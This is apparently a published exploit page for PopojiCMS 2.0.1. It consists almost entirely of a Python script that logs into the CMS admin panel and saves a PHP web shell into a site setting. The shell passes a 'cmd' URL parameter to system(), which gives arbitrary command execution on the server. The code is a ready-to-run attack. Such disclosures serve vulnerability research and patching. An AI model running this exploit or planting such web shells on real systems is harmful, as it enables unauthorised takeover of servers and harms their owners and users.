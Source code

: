 ```yaml
---
layout: post
title: PopojiCMS 2.0.1 - Remote Command Execution
date: 2024-05-25
category: exploit
---
```


# Exploit Title: PopojiCMS 2.0.1 - Remote Command Execution
# Date: 14/04/2024
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.popojicms.org/
# Software Link:
https://github.com/PopojiCMS/PopojiCMS/archive/refs/tags/v2.0.1.zip
# Version: Version : 2.0.1
# Tested on: https://www.softaculous.com/apps/cms/PopojiCMS

import requests
import time
import sys

def exploit(url, username, password):

login_url = f"{url}/po-admin/route.php?mod=login&act=proclogin"
login_data = {"username": username, "password": password}
headers = {"Content-Type": "application/x-www-form-urlencoded", "Referer": f
"{url}/po-admin/index.php"}
session = requests.Session()
login_response = session.post(login_url, data=login_data, headers=headers)
if "Administrator PopojiCMS" in login_response.text:
print("Login Successful!")
time.sleep(1) # 1 saniye bekle
else:
print("Login Failed!")
return

edit_url = f"{url}/po-admin/route.php?mod=setting&act=metasocial"
edit_data = {"meta_content": """<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>"""}
edit_response = session.post(edit_url, data=edit_data, headers=headers)
if "cmd" in edit_response.text:
print("Your shell is ready:", url)
time.sleep(1)
else:
print("Exploit Failed!")
return

if __name__ == "__main__":
if len(sys.argv) != 4:
print("Kullanım: python exploit.py sitename username password")
sys.exit(1)

url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
print("Exploiting...")
time.sleep(1)
print("Logging in...")
time.sleep(1)
exploit(url, username, password)
            